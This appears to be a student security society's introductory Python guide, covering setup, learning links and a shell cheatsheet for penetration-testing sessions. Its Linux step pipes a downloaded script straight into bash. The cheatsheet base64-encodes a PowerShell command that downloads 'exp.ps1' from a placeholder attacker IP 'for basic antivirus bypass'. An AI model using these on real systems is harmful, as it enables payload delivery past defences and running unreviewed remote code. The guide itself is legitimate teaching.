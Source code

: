 > This guide was written several years ago and has not yet been updated. You may encounter outdated information.

# Intro

Python is a powerful and versatile language with a relatively easy to learn syntax.

We may use Python in some of our sessions for a few purposes:

- running pre-written exploits from exploitDB
- writing custom exploits
- simple automation tasks
- complex automation examples such as web scraping
- using nice builtins, such as text encoding options, when building shellcode

# Installation

You can download Python for pretty much any Operating System [here](https://www.python.org/downloads/).

Alternatively, you can use Seb's instructions for installing Python along with Selenium, a useful browser automation tool. They're detailed below.

## Linux Setup

For linux setup, you can type the following command below to instantly install python, pip and selenium (in the browser of your choice [Chrome or Linux]):

~~~bash
wget https://shefesh.com/session_scripts/SeleniumLinux.bash; bash SeleniumLinux.bash
~~~

## Windows Setup

Download python 3 and pip from the [Microsoft Store](https://www.microsoft.com/store/productId/9PJPW5LDXLZ5). If you already have it installed from the Python website you can skip this step.

### Selenium Installation

In Command Prompt or Powershell, type:

~~~cmd
pip3 install selenium
~~~

## MacOS Installation

MacOS users can follow any of the following guides:

- [MacOS Python Guide](https://docs.python.org/3/using/mac.html)
- [Python Download Page](https://www.python.org/downloads/macos/)
- [Pip Installation Video for Python (If not installed)](https://www.youtube.com/watch?v=yBdZZGPpYxg)
- [MacOS Selenium Installation Video](https://www.youtube.com/watch?v=7R5n0sNSza8)

## Selenium Driver Download
Linux users won't have to follow this step for Chrome and Firefox unless you have another browser in mind for the session.
When downloading, CHECK YOUR BROWSER VERSION as it needs to compatible and run the version of the webbrowser you currently have on your computer.

- [Firefox Driver](https://github.com/mozilla/geckodriver/releases/tag/v0.30.0)
- [Chrome Driver](https://chromedriver.chromium.org/downloads)
- [Microsoft Edge Driver](https://developer.microsoft.com/en-us/microsoft-edge/tools/webdriver/)
- [Internet Explorer Driver](https://www.selenium.dev/downloads)
- Safari Driver is built in to Safari
- [Opera Driver](https://github.com/operasoftware/operachromiumdriver/releases)

# Learning Python

While we would like to teach you everything about Python in one short lesson, that's not really possible. It takes a while to learn, but luckily there are a few resources out there that are much better than us at teaching it.

The best way to learn is, often, to build something from scratch (coming to our Automation session, for example, will teach you how to build a web scraper). But despite how easy Python is to pick up, it's useful to know some of the basics beforehand.

Here are a few courses. There's no requirement to do these, but you may find them useful if you're interested in learning it:

- Python themselves have a [Beginner's Guide](https://wiki.python.org/moin/BeginnersGuide) and a [Getting Started](https://www.python.org/about/gettingstarted/) tutorial
- This course was built by a former SESH committee member, Brooks Rady. Start with the 'Basics of Programming in Python' lesson: [https://sheffield-bionics.gitlab.io/bionics-general/](https://sheffield-bionics.gitlab.io/bionics-general/)
- codecademy has a course for the most recent Python version: [https://www.codecademy.com/learn/learn-python-3](https://www.codecademy.com/learn/learn-python-3)

You can also find the Python Documentation [here](https://docs.python.org/3/), which is a well-written reference guide if you have a specific question (but not a great way to learn the language).

# Cheatsheet

Here are some useful commands from Python that we end up using frequently.

Launch an interactive Python shell (in any CLI):

~~~bash
$ python
~~~

> Note: some linux distributions, including Kali, have Python 2 installed for backwards compatibility - to use Python 3, you must type python3 in the command line

Within the shell you can import a module or local file with `import`:

~~~bash
┌──(kali㉿kali)-[~]
└─$ python3                            
Python 3.9.2 (default, Feb 28 2021, 17:03:44) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import requests
>>> import localscript.py
~~~

Run a method from a native or imported class, such as `os.system()` or `os.setuid()`:

~~~bash
>>> import os
>>> os.system("id")
uid=1000(kali) gid=1000(kali) groups=1000(kali),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),120(wireshark),134(scanner),143(kaboxer)
0
>>> os.setuid(0)
>>> os.system("id")
uid=0(root) gid=0(root) groups=0(root),20(dialout),120(wireshark),143(kaboxer)
0
~~~

Send a HTTP request:

~~~bash
>>> import requests
>>> r = requests.get("http://example.com")
>>> print(r)
<Response [200]>
~~~

Or raw socket data, decoding the response in UTF-8 format:

~~~bash
>>> import socket
>>> s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
>>> connect = s.connect(('IP',25))
>>> banner = s.recv(1024)
>>> print(banner.decode("utf-8"))
~~~

Create and sign a JWT token:

~~~bash
>>> import jwt
>>> from datetime import datetime, timedelta
>>> key = "verysecretkeylol"
>>> encoded = jwt.encode({"exp": datetime.utcnow() + timedelta(days=7), "key": "value"}, key, algorithm="HS256")
>>> print(encoded)
~~~

Calculate the difference between two hex values (useful in binary exploitation):

~~~bash
>>> 0x01611C8C - 0x016119FC
656
~~~

Quickly enumerate an Active Directory server with LDAP:

~~~bash
>>> import ldap3
>>> server = ldap3.Server('IP',get_info = ldap3.ALL, port = 389, use_ssl = False)
>>> connection = ldap3.Connection(server)
>>> connection.bind()
True
>>> server.info
~~~

Encode some text in base64 for a powershell encoded command (useful for basic antivirus bypass):

~~~bash
>>> import base64
>>> command = "Invoke-WebRequest http://YOUR_IP/exp.ps1 -o exp.ps1"
>>> print(base64.b64encode(command.encode("utf-16le")).decode())
SQBuAH...cwAxAA==
~~~

Test a regex:

~~~bash
>>> import re
>>> re.compile(r'\[\[(.*)\]\]')
re.compile('\\[\\[(.*)\\]\\]')
>>> p = re.compile(r'\[\[(.*)\]\]')
>>> string = "[[capture this]]"
>>> m = re.match(p, string)
>>> print(m.group(1))
capture this
~~~

As you can see, there's plenty it can do! The interactive Python shell is especially useful for testing small changes to scripts without having to modify the file itself.